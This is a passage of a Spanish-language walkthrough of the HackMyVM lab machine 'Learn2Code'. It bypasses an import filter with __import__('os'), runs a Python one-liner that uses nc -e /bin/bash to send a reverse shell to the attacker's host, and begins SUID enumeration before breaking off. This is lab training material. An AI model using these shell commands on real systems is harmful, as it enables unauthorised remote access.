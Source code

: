 Tras estar un rato probando llegué a la conclusión de que podemos programar en `Python2`.

Si intentamos importar librearías nos dirá que no tratemos de inyectar código malicioso y no nos dejará ejecutarlo, pero podemos importar librerías de otra manera.

Si utilizamos `__import__('os')` no nos dará error, ya que está mirando si comienza con `import`.

Para poder explotar este error debemos ponernos en escucha en nuestro equipo, ya que enviaremos una `Shell`. En mi caso será por el puerto `4444`:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Learn2Code]
└─# nc -nlvp 4444               
listening on [any] 4444 ...
```

Con esto hecho solo nos queda crear una línea en `Python` para enviarnos la `Shell`, para ello utilicé la siguiente línea:

```python
__import__('os').popen('nc -e /bin/bash 192.168.1.105 4444').read()
```

Instantáneamente recibiremos la conexión en nuestro equipo:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Learn2Code]
└─# nc -nlvp 4444               
listening on [any] 4444 ...
connect to [192.168.1.105] from (UNKNOWN) [192.168.1.106] 56380
www-data@Learn2Code:/var/www/html/includes/php$
```

¡Bien! Ya estamos como **www-data** en la máquina.

### Subida de privilegios #1
Para esta subida de privilegios necesitamos tener un mínimo conocimiento en **Buffer Overflow**, vamos a ver cómo podemos escalar privilegios.

Lo primero que hice fue buscar por binarios con permisos `SUID`:

```sh
www-data@Learn2Code:/$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/MakeMeLearner
/usr/bin/chfn
```

Vemos un binario algo extraño llamado `MakeMeLearner`, vamos a ejecutarlo y ver qué pasa:
